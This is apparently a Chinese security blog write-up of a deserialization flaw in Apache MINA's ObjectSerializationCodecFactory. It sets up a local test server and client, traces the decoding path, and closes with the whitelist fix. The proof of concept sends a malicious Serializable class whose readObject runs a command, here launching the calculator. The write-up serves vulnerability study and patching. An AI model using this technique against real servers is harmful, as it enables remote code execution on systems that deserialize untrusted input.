








# Apache mina反序列化漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/17505  
> **文章ID**: 17505

---

去年的一个洞了，原理很简单，算是炒个冷饭。

**关于apache mina**  
Apache Mina 是一款基于 Java 的高性能网络应用框架，其核心功能在于简化复杂网络通信的开发流程，同时确保具备可扩展性与高效性。以下为对其主要功能的总结：

1. **抽象底层通信细节** Mina 对 Java NIO 的底层 I/O 操作（例如线程管理、缓冲区分配、Socket 连接等）进行了封装。开发者无需直接处理多线程并发或数据读写阻塞问题，仅需聚焦于业务逻辑。
2. **分层架构设计** Mina 采用分层模型，将通信逻辑与业务逻辑相分离，形成三个核心层次： - **I/O 服务层（IoService）**：负责建立连接（如 `IoAcceptor` 服务端、`IoConnector` 客户端），监听端口并管理会话（`IoSessiaon`）。 - **过滤器链（FilterChain）**：处理协议编解码、日志记录等横切需求，例如借助 `TextLineCodecFactory` 实现字节流与文本的转换。 - **业务处理器（IoHandler）**：开发者在此实现事件驱动的业务逻辑（如 `messageReceived` 处理接收到的数据）。
3. **支持多种通信协议** Mina 提供对 TCP/IP、UDP/IP、串口通信、虚拟机管道等多种传输协议的支持，并且允许开发者进行自定义协议扩展。
4. **高性能与可扩展性** - **异步非阻塞模型**：基于 Java NIO 的事件驱动机制，支持高并发连接和低延迟通信。 - **线程池优化**：允许自定义线程模型（单线程或线程池），以平衡资源消耗与处理效率。 - **缓冲池技术**：通过内存重用降低垃圾回收压力，提升大规模数据传输性能。
5. **事件驱动与状态管理** Mina 通过事件回调机制（如 `sessionCreated`、`sessionIdle`、`exceptionCaught`）管理连接生命周期和异常，结合 `IoSession` 实现会话状态存储（如用户登录状态）。
6. **典型应用场景** - **即时通讯系统**：处理大量实时消息的收发。 - **在线游戏服务器**：支持高并发玩家交互。 - **物联网网关**：管理设备连接与数据转发。 - **金融交易平台**：实现低延迟订单处理。 --- ### 总结 Apache Mina 的核心价值在于，通过模块化设计、高性能异步模型以及丰富的协议支持，使开发者能够快速构建稳定、可扩展的网络应用，同时避免陷入底层通信细节的繁杂之中。其灵活的架构尤其适用于需要处理高并发和复杂协议的场景。

**搭建环境**  
漏洞位置存在于架构的编解码器过滤器使用的ObjectSerializationCodecFactory类中，这个类也是mina专门用于处理Java对象的序列化和反序列化的编解码器。  
创建Message类：

```
package org.juju;

import java.io.Serializable;

public class Message implements Serializable {
    private static final long serialVersionUID = 1L;

    private Object content; 

    public Message(Object content) {
        this.content = content;
    }

    public Object getContent() {
        return content;
    }
}
```

创建MinaServer类：

```
package org.juju;

import org.apache.mina.core.service.IoHandlerAdapter;
import org.apache.mina.core.session.IoSession;
import org.apache.mina.filter.codec.ProtocolCodecFilter;
import org.apache.mina.filter.codec.serialization.ObjectSerializationCodecFactory;
import org.apache.mina.transport.socket.nio.NioSocketAcceptor;

import java.net.InetSocketAddress;

public class MinaServer {
    public static void main(String[] args) throws Exception {
  
        NioSocketAcceptor acceptor = new NioSocketAcceptor();

        acceptor.getFilterChain().addLast("codec", new ProtocolCodecFilter(new ObjectSerializationCodecFactory()));

        acceptor.setHandler(new ServerHandler());

        acceptor.bind(new InetSocketAddress(9123));
        System.out.println("Server started on port 9123...");
    }

    private static class ServerHandler extends IoHandlerAdapter {
        @Override
        public void messageReceived(IoSession session, Object message) {
            if (message instanceof Message) {
                Message msg = (Message) message; 
                System.out.println("Received: " + msg.getContent()); 
            }
        }

        @Override
        public void exceptionCaught(IoSession session, Throwable cause) {

            cause.printStackTrace();
            session.closeNow(); 
        }
    }
}

```

创建MinaClient类：

```
package org.juju;

import org.apache.mina.core.future.ConnectFuture;
import org.apache.mina.core.service.IoHandlerAdapter;
import org.apache.mina.core.session.IoSession;
import org.apache.mina.filter.codec.ProtocolCodecFilter;
import org.apache.mina.filter.codec.serialization.ObjectSerializationCodecFactory;
import org.apache.mina.transport.socket.nio.NioSocketConnector;

import java.net.InetSocketAddress;

public class MinaClient {
    public static void main(String[] args) {
        NioSocketConnector connector = new NioSocketConnector();

        connector.getFilterChain().addLast("codec", new ProtocolCodecFilter(new ObjectSerializationCodecFactory()));

        connector.setHandler(new ClientHandler());

        ConnectFuture future = connector.connect(new InetSocketAddress("localhost", 9123));
        future.awaitUninterruptibly(); 

        IoSession session = future.getSession(); 
        session.write(new Message("Hello, MINA!")); 

        session.getCloseFuture().awaitUninterruptibly();
        connector.dispose(); 
    }

    private static class ClientHandler extends IoHandlerAdapter {
        @Override
        public void exceptionCaught(IoSession session, Throwable cause) {
            cause.printStackTrace();
            session.closeNow(); 
        }
    }
}
```

先运行server，再运行client，如下所示，环境搭建成功：  


**漏洞分析**  
漏洞处于ProtocolCodecFilter编解码器里的ObjectSerializationCodecFactory类,而且发生在反序列化解码的阶段，在ProtocolCodecFilter.messageReceived打下断点，在decoder.decode(session, in, decoderOut)这部分代码用于可以查看输入缓冲区的内容，确保Message对象被正确解码：  
  
ObjectSerializationCodecFactory创建的具体解码器是ObjectSerializationDecoder，该类实现了 ProtocolDecoder接口，负责将字节流反序列化为java对象：  
  
在AbstractIoBuffer.getObject方法中完成反序列化：  


**漏洞测试**  
恶意类：

```
package org.juju;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Evil implements Serializable {
    private static final long serialVersionUID = 1L;

    private Object content;

    public Evil(Object content) {
        this.content = content;
    }

    public Object getContent() {
        return content;
    }

    public void calc() throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        calc();
    }
}
```

再将这里Client发送的类替换成Evil类：  
  
调试server，再运行client就可以看到进入到了执行命令的方法：  


**漏洞修复**  
<https://github.com/apache/mina/compare/2.0.26...2.0.27>  
  
  
相当于是做个白名单校验，白名单需要手动在ObjectSerializationDecoder设置允许的类，否则默认拒绝所有类。
